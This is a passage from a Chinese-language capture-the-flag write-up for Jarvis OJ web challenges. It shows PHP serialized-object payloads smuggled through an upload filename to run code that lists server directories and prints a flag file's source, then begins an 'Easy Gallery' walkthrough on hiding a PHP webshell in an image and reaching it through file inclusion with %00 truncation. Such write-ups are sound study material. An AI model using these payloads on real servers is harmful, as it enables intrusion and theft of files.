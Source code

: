 ```php
    }
}
$obj = new OowoO();
echo serialize($obj);
?>
```



于是抓包修改filename

```
|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:35:\"print_r($_SERVER[\"DOCUMENT_ROOT\"]);\";}
```

```
/opt/lampp/htdocs
|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:39:\"print_r(scandir('/opt/lampp/htdocs/'));\";}
```

```
|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:73:\"show_source(\"/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php\");\";}
```

即可获取flag   学到了不少姿势啊！！！



### Easy Gallery 

题目入口：<http://web.jarvisoj.com:32785/> 

这个题目是一个文件上传

文件上传一般需要考虑两大点

1.绕过过滤成功上传

2.执行上传文件

上传的时候，发现后台不是通过文件后缀来进行判断的，还对文件的MIME进行了判断，那么就必须上传图片一句话木马了。 

`copy 1.jpg/b+2.php/a 3.jpg` 

上传3.jpg的图片木马上去

然后发现 `http://web.jarvisoj.com:32785/index.php?page=submit` 

猜想 ?page= 后的内容是否可以文件包含

尝试访问 `http://web.jarvisoj.com:32785/index.php?page=submit'`

报错 `  **Warning**:  fopen(submit'.php): failed to open stream: No such file or directory in **/opt/lampp/htdocs/index.php** on line **24**  No such file! ` 

那我们就知道了其实是把page的参数加上 .php 进行文件包含

这里我们可用%00截断  后面的.php

那么我们上传图片马 后给我们的图片id试着去访问

`uploads/图片id.jpg%00` 

